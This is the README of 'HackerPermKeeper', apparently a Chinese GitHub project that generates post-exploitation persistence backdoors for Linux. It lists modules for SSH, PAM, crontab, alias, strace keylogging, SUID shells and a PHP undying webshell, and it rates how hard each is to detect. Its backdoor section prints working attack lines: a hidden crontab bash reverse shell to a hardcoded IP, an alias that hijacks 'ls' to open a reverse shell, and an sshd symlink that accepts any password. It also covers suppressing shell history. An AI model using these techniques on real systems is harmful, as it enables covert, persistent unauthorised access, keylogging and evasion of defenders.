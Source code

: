 # :lock:	HackerPermKeeper  
### 黑客权限保持者

     _   _               _                ______                         _   __                               
    | | | |             | |               | ___ \                       | | / /                               
    | |_| |  __ _   ___ | | __  ___  _ __ | |_/ /  ___  _ __  _ __ ___  | |/ /   ___   ___  _ __    ___  _ __ 
    |  _  | / _` | / __|| |/ / / _ \| '__||  __/  / _ \| '__|| '_ ` _ \ |    \  / _ \ / _ \| '_ \  / _ \| '__|
    | | | || (_| || (__ |   < |  __/| |   | |    |  __/| |   | | | | | || |\  \|  __/|  __/| |_) ||  __/| |   
    \_| |_/ \__,_| \___||_|\_\ \___||_|   \_|     \___||_|   |_| |_| |_|\_| \_/ \___| \___|| .__/  \___||_|   
                                                                                           | |                
                                                                                           |_|                       
<br/>
  <p align="center">
    <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E4%BD%9C%E8%80%85-%E5%BC%B1%E9%B8%A1-red" />
    <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E5%8D%9A%E5%AE%A2-www.taoyuan.cool-blue" />
    <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E5%AE%89%E5%85%A8%E5%9B%A2%E9%98%9F-One--fox-pink" />
    <img src="https://img.shields.io/badge/WeChat-vivo50KFCKFC-black">
    <img src="https://badgen.net/github/stars/RuoJi6/HackerPermKeeper/?icon=github&color=black">
    <img src="https://badgen.net/github/issues/RuoJi6/HackerPermKeeper">
    <img src="https://img.shields.io/badge/python%E7%89%88%E6%9C%AC-3_and_2-green">
    <a href="https://flowus.cn/share/3505271f-a987-4fb1-9623-efe58dcc77ec">
     <img src="https://img.shields.io/badge/%E6%96%87%E5%BA%93-wiki-yellow">
    </a>
</p>
<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 通过渗透拿到权限之后，为了不让权限丢失，都会进行权限维持，而在进行权限维持的时候，红队需要花费大量的时候，来验证是否合适，因此在这款工具就诞生 HackerPermKeeper[黑客权限保持者] 
<br/><br/>


## 🚀上手指南

📢 请务必花一点时间阅读此文档，有助于你快速熟悉HackerPermKeeper
<br/><br/>

<details>
<summary><b>:lock:支持系统列表</b></summary>

| :lock:权限维持模块                      | centos             | Ubuntu             | 推荐指数                                             | 需要权限     | 备注                                                         | py2                | py3                |
| :-------------------------------------- | ------------------ | ------------------ | ---------------------------------------------------- | ------------ | ------------------------------------------------------------ | ------------------ | ------------------ |
| OpenSSH后门万能密码&记录密码            | :x:                | :heavy_check_mark: | :star:                                               | root         | 此后门需要很老的内核版本，而且需要很多依赖环境               | :x:                | :heavy_check_mark: |
| PAM后门                                 | :x:                | :x:                | :star:                                               | :x:          | 此后门需要很老的内核版本，而且需要很多依赖环境               | :x:                | :x:                |
| ssh软链接                               | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:                                     | root         | 容易被发现                                                   | :heavy_check_mark: | :heavy_check_mark: |
| ssh公私密钥                             | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:	:star:       | User         | 发现程度很难，参考了挖矿病毒                                 | :heavy_check_mark: | :heavy_check_mark: |
| 后门帐号                                | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:                           | root         | 用命令添加账户，不会创建用户home目录[有一个是直接指向root目录] | :heavy_check_mark: | :heavy_check_mark: |
| crontab计划任务                         | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:                 | User or root | 难以发现，通过执行计划任务                                   | :heavy_check_mark: | :heavy_check_mark: |
| Strace后门                              | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:                                     | root         | 键盘记录的后门                                               | :heavy_check_mark: | :heavy_check_mark: |
| Alias后门                               | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:                 | root         | 别名后门，难以发现，但是需要用户去执行命令                   | :heavy_check_mark: | :heavy_check_mark: |
| Rootkit后门[检测]                       | :x:                | :x:                | :star:	:star:	:star:                           | root         | 难以发现，但是安装复杂，而且指定内核版本                     | :x:                | :x:                |
| 临时history不记录命令 or 永久不记录命令 | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star::star::star::star:         | root         | 有的服务器设置了空格记录执行命令，执行这个脚本快速设置不记录空格命令 | :heavy_check_mark: | :heavy_check_mark: |
| ssh软链接&crontab                       | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:                 | root         | 快速生成软链接，并且执行计划任务，每分钟判断当前软链接是否存在，如果被kill掉，就重新执行 | :heavy_check_mark: | :heavy_check_mark: |
| check.py                                | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star::star::star:     | User         | 快速检测目标机器可以使用那个权限维持模块，并且检测当前机器处于docker还是k8s，并检测docker逃逸 | :heavy_check_mark: | :heavy_check_mark: |
| sshkey密钥&crontab                      | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star::star:	:star: | User or root | 快速生成ssh密钥，并且执行计划任务，每分钟判断当前密钥和多个文件是否存在，如果被kill掉，就重新执行 | :heavy_check_mark: | :heavy_check_mark: |
| php权限维持不死免杀马                   | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star::star:	:star: | User or root | phpweb权限维持马                                             | :heavy_check_mark: | :heavy_check_mark: |
| Suid shell bash                         | :heavy_check_mark: | :heavy_check_mark: | :star:	:star:	:star:	:star:	:star:       | root         | Suid shell bash脚本(低权限用户运行),可以和webshell进行联动一个低权限用户只需要执行一个文件就可以获取高权限 | :heavy_check_mark: | :heavy_check_mark: |

</details>


<details>
<summary><b>:closed_lock_with_key:权限的划分</b></summary>

| UID    | 数值                                                        | 比如：       |
| ------ | ----------------------------------------------------------- | ------------ |
| 0      | 超级管理员（root用户）                                      | root         |
| 1～999 | Linux系统将一些服务程序和系统任务分配给独立的系统用户来运行 | bin          |
| 1000   | 普通用户UID从1000开始                                       | www-data,www |

</details>

<details>
<summary><b>🐍安装要求</b></summary>
  
```
python3运行此项目[我自己的环境是Python 3.9.7]，但是运行权限维持模块脚本请看上面的表格
安装依赖
pip install -r requirements.txt
```
  
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/917d5afc-1775-4bcc-82d0-c9adb7cf89b7)

```
测试是否正常运行
python main.py -h
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/d4c4b282-6570-4b3e-ba97-d27e7eaef42b)



</details>

<details>
<summary><b>✨使用演示</b></summary>

```
查看帮助
python main.py -h
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/b2216e6b-c07c-4ee6-9768-3da79c6d9932)



```
快速判断目标机器适合的权限维持模块，运行 /check/ 目录下的check.py文件[这个不需要任何依赖环境，python3和python2都支持]
python check.py
python3 check.py
python2 check.py
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/09fd1694-c90a-49da-a9c9-47e7745463d2)




```
查看权限维持模块信息
python main.py -c 1
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/a15340cc-6586-4541-9345-55ef3a8873a8)



```
查看权限维持模详细块信息
python main.py -c 2
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/59a86236-1e03-4ea9-8b48-d14d57451317)


```
使用此项目生成权限维持脚本[在这之前，请先运行check.py脚本判断出目标机器适合什么类型权限维持的脚本]
python main.py -m 1   #选择模块[6.0更新之后，可以连续选择]
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/2cb4a5a6-76e7-4da5-8000-b8d080070914)

```
有的生成的脚本文件。需要在生成之后进行手动修改
比如：修改反弹shellip以及端口，后门用户密码，ssh密钥密码，ssh密钥等[此缺陷将会在第二个版本修复]
生成的文件会在payloads目录下产生
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/8e9c3c6e-21a3-4a14-adc3-632f08da434a)


使用视频：https://www.bilibili.com/video/BV1fV411N7Qc/
</details>

<details>
<summary><b>:triangular_flag_on_post:	常见后门介绍</b></summary>

```
OpenSSH后门万能密码&记录密码（这个需要依赖环境），就是把对方的门换个锁，但是原来的钥匙也可以使用
发现程度：||

PAM后门，PAM是一个Linux登录验证的认证服务，修改其中关于ssh登录的验证，添加一个万能密码，已经记录的账号密码位置（类似把对方房间内有内鬼）
发现程度：||


SSH软链接
cat /etc/ssh/sshd_config|grep UsePAM
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
ssh root@xx.xx.xx.xx -p 8888 任意密码登录即可
发现程度：||||||


公私钥
使用密钥进行登录
发现程度：||||||


后门帐号
使用命令添加账号
发现程度：||||||


crontab后计划任务
1、编辑后门反弹
vim /etc/.111.sh

#!/bin/bash
sh -i >& /dev/tcp/192.168.86.137/3434 0>&1

chmod +x /etc/.111.sh

2、添加定时任务
vim /etc/crontab
*/1 * * * * root /etc/.1111.sh
发现程度：||||||


Strace后门
strace是一个动态跟踪工具，它可以跟踪系统调用的执行。
我们可以把他当成一个键盘记录的后门，来扩大我们的信息收集范围
可以记录ssh明文和密钥（登录的）和Rootkit配合一起
发现程度：||||

命令自定义-Alias后门
alias命令的功能：为命令设置别名
alias ls='alerts(){ ls $* --color=auto;bash -i >& /dev/tcp/192.168.86.137/3333 0>&1; };alerts'
执行ls就会反弹shell
持久化+隐藏：重启依旧生效
发现程度：||||

Rootkit后门
https://github.com/f0rb1dd3n/Reptile/releases/
Rootkit是一种特殊的恶意软件，它的功能是在安装目标上隐藏自身及指定的文件、进程和网络链接等信息，比较多见到的是Rootkit一般都和木马、后门等其他恶意程序结合使用。
发现程度：||
但是使用工具进行检测出来情况很大，建议看代码，手动编写此工具（难度很大）


history不记录执行命令
在输入命令时候，添加空格

ssh软链接&crontab
快速生成软链接[需要运行脚本成功后，一分钟连接]，并且执行计划任务，每分钟判断当前软链接是否存在，如果被kill掉，就重新执行

|||||  越多，越容易发发现
||        越少，越难发现，但是部署起来，需要的依赖很多

```

</details>


<details>
<summary><b>:warning:常见错误error</b></summary>

```
1、
使用ssh密钥后门连接的时候，出现这个错误，就是当前ip有在known_hosts中存在多个主机文件
解决：ssh-keygen -f "known_hosts文件" -R "目标Ip"
或者使用另外一台机器连接
```
![TON3EA2_MQW`94HRK53GZTQ](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/93dad03b-af7c-4e62-9dc8-87722504ce10)
删除成功
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/3342097e-b280-4b68-b90b-788a2de5cca6)

```
2、
下载的ssh密钥连接的时候出现安全性错误
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/76dfafe5-22a7-4698-b08e-fd5857a15641)
解决：修改权限 chmod 600 密钥文件，然后在连接
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/8d9262ac-1555-466d-8ed7-197fb9521d43)

</details>

<details>
<summary><b>:zap:提交问题</b></summary>
有问题请提交issues<br/>
<a href="https://github.com/RuoJi6/HackerPermKeeper/issues"><img src="https://badgen.net/github/issues/RuoJi6/HackerPermKeeper"></a>
<br/>
加我微信进开发者微信群聊 
<br/><img src="https://img.shields.io/badge/WeChat-vivo50KFCKFC-green">
</details>

<br/>

## :world_map:版本更新
```
1.0 权限维持
----------------------------------------------------------------------------------------------------------
2.0 1、利用成功之后删除文件
    2、命令配合使用[软链接+计划任务]
    3、判断当前系统有没有python环境
    4、使用ssh密钥的时候，在对方服务器生成的时候，生成完成之后，删除文件id_ed25519.pub和id_ed25519
    5、设置全局环境变量不记录空格命令[history]
    6、修改在不同环境下，main.py运行bug
    7、修复计划任务，在反弹shell的时候，出现的python版本问题
    8、ssh密钥权限维持模块，bug修复，如果是出现不是root，权限也可以成功
    9、修复check.py脚本检测普通用户权限
----------------------------------------------------------------------------------------------------------
3.0 1、php web权限维持马[首页马，加密马内存马，不死马]
    2、模块配合使用[添加用户加计划任务，ssh密钥加计划任务]
    3、在计划任务配合使用的时候，发现还需要判断文件有没有加锁
----------------------------------------------------------------------------------------------------------
4.0 1、修改ssh密钥以及添加用户中重新运行时候，检测是否加锁解锁操作
----------------------------------------------------------------------------------------------------------
5.0 1、检测docker，k8s环境
    2、检测docker逃逸，特权逃逸，Docker Socket逃逸，docker procfs逃逸[以后会添加针对k8s横向以及逃逸]
    3、别名权限维持文件不存在bug修复
    4、修复检测脚本bug
----------------------------------------------------------------------------------------------------------
6.0 1、Suid shell bash权限维持
    2、重写生成代码(连续生成)
    3、添加不记录历史命令临时操作，同时可以批量删除指定的.bash_history文件中的历史记录
    4、修改检查脚本(添加检查环境)
    5、使用tabulate模块进行格式化输出
```


<br/>

## :beginner:开发日志
<a href="https://flowus.cn/ruoji/share/57079f81-d391-478e-88c8-329c93371723">点击跳转</a>

<br/>

## :star2:Stargazers over time [![Stargazers over time](https://starchart.cc/RuoJi6/HackerPermKeeper.svg)](https://starchart.cc/RuoJi6/HackerPermKeeper)


## Stargazers

[![Stargazers repo roster for @RuoJi6/HackerPermKeeper](http://reporoster.com/stars/RuoJi6/HackerPermKeeper)](https://github.com/RuoJi6/HackerPermKeeper/stargazers)


## Forkers

[![Forkers repo roster for @RuoJi6/HackerPermKeeper](http://reporoster.com/forks/RuoJi6/HackerPermKeeper)](https://github.com/RuoJi6/HackerPermKeeper/network/members)


<a href="https://github.com/RuoJi6">
  <img height=150 align="center" src="https://github-readme-stats.vercel.app/api?username=RuoJi6"/>
</a>
<a href="https://github.com/RuoJi6/HackerPermKeeper/">
  <img height=150 align="center" src="https://github-readme-stats.vercel.app/api/top-langs?username=RuoJi6&layout=compact&langs_count=8&card_width=320" />
</a>

